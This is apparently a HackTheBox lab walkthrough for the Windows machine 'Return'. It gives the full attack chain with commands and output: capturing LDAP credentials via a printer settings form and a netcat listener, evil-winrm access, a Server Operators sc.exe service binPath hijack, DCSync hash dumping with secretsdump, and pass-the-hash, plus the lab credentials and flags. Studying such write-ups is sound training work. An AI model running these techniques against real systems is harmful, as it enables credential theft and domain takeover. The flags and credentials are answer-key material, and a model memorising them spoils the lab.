










# HackTheBox — Return | Full Walkthrough

> **Machine:** Return
> **Difficulty:** Easy (Windows)
> **Author:** vodanhtieutot
> **Platform:** HackTheBox

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [Web Application Analysis — HTB Printer Admin Panel](#3-web-application-analysis--htb-printer-admin-panel)
4. [Credential Capture — LDAP Listener Trick](#4-credential-capture--ldap-listener-trick)
5. [Initial Access — Evil-WinRM as svc-printer](#5-initial-access--evil-winrm-as-svc-printer)
6. [Active Directory Enumeration — BloodHound](#6-active-directory-enumeration--bloodhound)
7. [Privilege Escalation — Server Operators + Service Abuse](#7-privilege-escalation--server-operators--service-abuse)
8. [DCSync — Dumping Domain Credentials](#8-dcsync--dumping-domain-credentials)
9. [Root Access — Pass the Hash as Administrator](#9-root-access--pass-the-hash-as-administrator)
10. [Flags & Answers Summary](#10-flags--answers-summary)
11. [Attack Chain Summary](#11-attack-chain-summary)
12. [Tools Used](#12-tools-used)

---

## 1. Overview

**Return** is an Easy-rated Windows machine on HackTheBox. The attack path leverages a misconfigured **HTB Printer Admin Panel** web application that makes outbound LDAP connections — by redirecting this connection to our attacker machine, we capture plaintext credentials for `svc-printer`. The user is a member of the **Server Operators** group, which allows modifying Windows service binary paths. This is abused to elevate to local Administrator, enabling a full **DCSync** attack to dump all domain hashes and gain Administrator access via Pass-the-Hash.

```
Recon → HTB Printer Admin Panel (settings.php) → LDAP listener trick
→ Credentials: svc-printer:1edFg43012!!
→ Evil-WinRM as svc-printer → user flag
→ BloodHound: Server Operators group → sc.exe service abuse
→ svc-printer added to Administrators → DCSync → Administrator NTLM hash
→ Evil-WinRM Pass-the-Hash → root flag
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `10.129.13.148` |
| Machine Name | `Return` |
| Domain | `return.local` |
| OS | Windows Server 2019/2022 |
| Open Ports | 53, 80, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5985, 9389, 47001 |
| Attacker | Kali Linux (vodanhtieutot) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Quick Port Scan

Full port scan with `-Pn` to skip host discovery and `--min-rate 5000` for speed:

```bash
nmap -Pn -p- --min-rate 5000 10.129.13.148
```



The large number of open ports immediately signals a **Windows Active Directory** environment:

| Port | Service | Notes |
|---|---|---|
| 53/tcp | domain | DNS |
| 80/tcp | http | Web application |
| 88/tcp | kerberos-sec | Kerberos — confirms AD |
| 135/tcp | msrpc | RPC |
| 139/tcp | netbios-ssn | NetBIOS |
| 389/tcp | ldap | LDAP — Active Directory |
| 445/tcp | microsoft-ds | SMB |
| 464/tcp | kpasswd5 | Kerberos password change |
| 593/tcp | http-rpc-epmap | RPC over HTTP |
| 636/tcp | ldapssl | LDAPS |
| 3268/tcp | globalcatLDAP | Global Catalog LDAP |
| 3269/tcp | globalcatLDAPssl | Global Catalog LDAPS |
| 5985/tcp | wsman | **WinRM — remote management** |
| 9389/tcp | adws | AD Web Services |
| 47001/tcp | winrm | WinRM (alternate port) |

> **Key finding:** Port **5985** (WinRM) is open — if we obtain valid credentials, we can use `evil-winrm` for a remote shell.

### 2.2 Service & Script Scan

Aggressive scan on the discovered ports:

```bash
nmap -sC -sV -A -Pn -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 10.129.13.148
```



Key findings:

| Detail | Value |
|---|---|
| Port 80 | Microsoft IIS httpd 10.0 |
| HTTP Title | `HTB Printer Admin Panel` |
| HTTP Server | `Microsoft-IIS/10.0` |
| Port 389 | Microsoft Windows Active Directory LDAP |
| Domain | `return.local` |
| Site | `Default-First-Site-Name` |
| OS (guess) | Windows Server 2019/2022 (97%) |
| Host Type | PRINTER |

> **Critical finding:** The HTTP title `HTB Printer Admin Panel` tells us the web app is a printer management interface. Printer admin panels commonly authenticate against LDAP/AD — a potential credential capture vector.

---

## 3. Web Application Analysis — HTB Printer Admin Panel

Navigate to `http://10.129.13.148/settings.php`:



The Settings page reveals an LDAP configuration form with the following pre-filled values:

| Field | Value |
|---|---|
| Server Address | `10.10.14.255` |
| Server Port | `389` |
| Username | `svc-printer` |
| Password | `*******` (masked) |

> 🎯 **Vulnerability Observation:** This page allows us to change the **Server Address** — the printer will make an outbound LDAP authentication request to whatever address we specify. If we set it to our attacker machine and listen on port 389, the printer will send the `svc-printer` credentials to us in plaintext.

---

## 4. Credential Capture — LDAP Listener Trick

### 4.1 Setting Up a Netcat Listener

On the attacker machine, start a netcat listener on port 389 (LDAP):

```bash
nc -lnvp 389
```

### 4.2 Triggering the LDAP Connection

In the Printer Admin Panel:
1. Change **Server Address** from `10.10.14.255` to the attacker's IP
2. Keep **Server Port** as `389`
3. Click **Update**

The printer immediately attempts to authenticate to our listener via LDAP.



```
listening on [any] 389 ...
connect to [10.10.14.255] from (UNKNOWN) [10.129.13.148] 64972
0*%return\svc-printer
                      1edFg43012!!
```

> 🎯 **Credentials captured in plaintext:**
> - **Username:** `svc-printer`
> - **Password:** `1edFg43012!!`
> - **Domain:** `return`
>
> The printer sends authentication data in cleartext during the LDAP bind request — a classic LDAP credential capture attack.

---

## 5. Initial Access — Evil-WinRM as svc-printer

### 5.1 Logging In via WinRM

With valid AD credentials and port 5985 open, use `evil-winrm` to get a PowerShell session:

```bash
evil-winrm -i 10.129.13.148 -u svc-printer -p '1edFg43012!!'
```



```
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc-printer> cd Desktop
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> cat user.txt
61f50ad516aed5b57ab54d2139d808f8
```

> 🚩 **user.txt (User Flag):** `61f50ad516aed5b57ab54d2139d808f8`

---

## 6. Active Directory Enumeration — BloodHound

After obtaining a foothold, run BloodHound to map AD attack paths from `svc-printer`.

### 6.1 svc-printer → CanPSRemote → PRINTER.RETURN.LOCAL



BloodHound reveals that `svc-printer` has the **CanPSRemote** right on `PRINTER.RETURN.LOCAL`, confirming the WinRM access we already have. More importantly, we need to check what rights the **computer account** `PRINTER.RETURN.LOCAL` has.

### 6.2 PRINTER.RETURN.LOCAL → DCSync → RETURN.LOCAL



BloodHound reveals a critical path:

- `PRINTER.RETURN.LOCAL` → **MemberOf** → `ENTERPRISE DOMAIN CONTROLLERS`
- `PRINTER.RETURN.LOCAL` → **MemberOf** → `DOMAIN CONTROLLERS@RETURN.LOCAL`
- `PRINTER.RETURN.LOCAL` → **DCSy (DCSync)** → `RETURN.LOCAL`

> 🎯 **Key insight:** `svc-printer` is a member of the **Server Operators** built-in group. Server Operators have the ability to **start, stop, and reconfigure Windows services** — even system services that run as `SYSTEM`. This allows us to modify a service's binary path to execute arbitrary commands as SYSTEM, then add `svc-printer` to the local Administrators group, which enables a full **DCSync** attack.

---

## 7. Privilege Escalation — Server Operators + Service Abuse

### 7.1 Abusing Server Operators via Service Reconfiguration

The **Server Operators** group can modify service configurations. We abuse the `VSS` (Volume Shadow Copy) service by changing its binary path to a command that adds `svc-printer` to the local Administrators group:

```powershell
sc.exe config VSS binPath="cmd.exe /c net localgroup administrators svc-printer /add"
sc.exe stop VSS
sc.exe start VSS
```



```
[SC] ChangeServiceConfig SUCCESS
[SC] ControlService FAILED 1062: The service has not been started.

[SC] StartService FAILED 1053: The service did not respond to the start or control request in a timely fashion.

net localgroup administrators
Members
-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
svc-printer
The command completed successfully.
```

> ✅ **Success!** Even though the service start "failed" (timeout), the `cmd.exe` command ran before the timeout — `svc-printer` is now a member of the local **Administrators** group.

### 7.2 Re-authenticate with Elevated Privileges

Exit the current session and reconnect with `evil-winrm` to pick up the new group membership:

```bash
evil-winrm -i 10.129.13.148 -u svc-printer -p '1edFg43012!!'
```

The session now runs with full local Administrator privileges, enabling the DCSync attack.

---

## 8. DCSync — Dumping Domain Credentials

With `svc-printer` now in the Administrators group (which has DCSync-equivalent rights in this environment), use `impacket-secretsdump` to dump all domain credential hashes:

```bash
impacket-secretsdump return.local/svc-printer:'1edFg43012!!'@10.129.13.148 \
  -just-dc-ntlm
```



```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:32db622ed9c00dd1039d8288b0407460:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4e48ce125611add31a32cd79e529964b:::
return.local\svc-printer:1103:aad3b435b51404eeaad3b435b51404ee:c1d26bdcecf44246b5f8653284331a2e:::
PRINTER$:1000:aad3b435b51404eeaad3b435b51404ee:f3ffdd2a8b99f83df35cd14a1a294470:::
[*] Cleaning up ...
```

> 🎯 **Administrator NTLM hash obtained:** `32db622ed9c00dd1039d8288b0407460`

---

## 9. Root Access — Pass the Hash as Administrator

Use the Administrator's NTLM hash directly with `evil-winrm` (Pass-the-Hash — no password cracking needed):

```bash
evil-winrm -i 10.129.13.148 -u Administrator -H '32db622ed9c00dd1039d8288b0407460'
```



```
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
4ec9ef8d3bbeb050b57db2d6fac12ccd
```

> 🚩 **root.txt (Root Flag):** `4ec9ef8d3bbeb050b57db2d6fac12ccd`

---

## 10. Flags & Answers Summary

| Flag | Location | Value |
|---|---|---|
| User Flag | `C:\Users\svc-printer\Desktop\user.txt` | `61f50ad516aed5b57ab54d2139d808f8` |
| Root Flag | `C:\Users\Administrator\Desktop\root.txt` | `4ec9ef8d3bbeb050b57db2d6fac12ccd` |

---

## 11. Attack Chain Summary

```
[1] Nmap -Pn -p- --min-rate 5000
        → Many ports open: 53, 80, 88, 135, 139, 389, 445, 464, 593, 636,
          3268, 3269, 5985, 9389, 47001 → Windows Active Directory environment

[2] Nmap -sC -sV -A
        → Port 80: Microsoft IIS 10.0 — "HTB Printer Admin Panel"
        → Port 389: AD LDAP — Domain: return.local
        → Port 5985: WinRM (remote shell potential)
        → Host: PRINTER, OS: Windows Server 2019/2022

[3] Browse http://10.129.13.148/settings.php
        → LDAP Settings form: Server Address, Port 389, Username: svc-printer
        → Server Address is user-controlled — LDAP credential capture possible

[4] nc -lnvp 389 (attacker)
        → Change Server Address to attacker IP in web form → click Update
        → Printer connects back: svc-printer : 1edFg43012!!
        → Credentials captured in plaintext

[5] evil-winrm -i 10.129.13.148 -u svc-printer -p '1edFg43012!!'
        → Shell as svc-printer
        → cat Desktop\user.txt → user flag ✓

[6] BloodHound enumeration
        → svc-printer → CanPSRemote → PRINTER.RETURN.LOCAL
        → PRINTER.RETURN.LOCAL → DCSync → RETURN.LOCAL
        → svc-printer is member of Server Operators group

[7] Server Operators abuse (sc.exe service hijack)
        → sc.exe config VSS binPath="cmd.exe /c net localgroup administrators svc-printer /add"
        → sc.exe start VSS → command executes as SYSTEM → svc-printer added to Administrators ✓

[8] impacket-secretsdump return.local/svc-printer:'1edFg43012!!'@10.129.13.148 -just-dc-ntlm
        → DCSync: dumps NTDS.DIT credentials
        → Administrator NTLM hash: 32db622ed9c00dd1039d8288b0407460

[9] evil-winrm -i 10.129.13.148 -u Administrator -H '32db622ed9c00dd1039d8288b0407460'
        → Pass-the-Hash → Administrator shell ✓
        → cat Desktop\root.txt → root flag ✓
```

---

## 12. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning & service fingerprinting |
| Firefox / Browser | Manual web application analysis |
| `nc` (netcat) | LDAP listener for credential capture |
| `evil-winrm` | WinRM remote shell (initial access & root) |
| BloodHound | Active Directory attack path enumeration |
| `impacket-secretsdump` | DCSync attack — dump NTDS.DIT domain credentials |
| Pass-the-Hash | Admin access using NTLM hash (no password crack needed) |
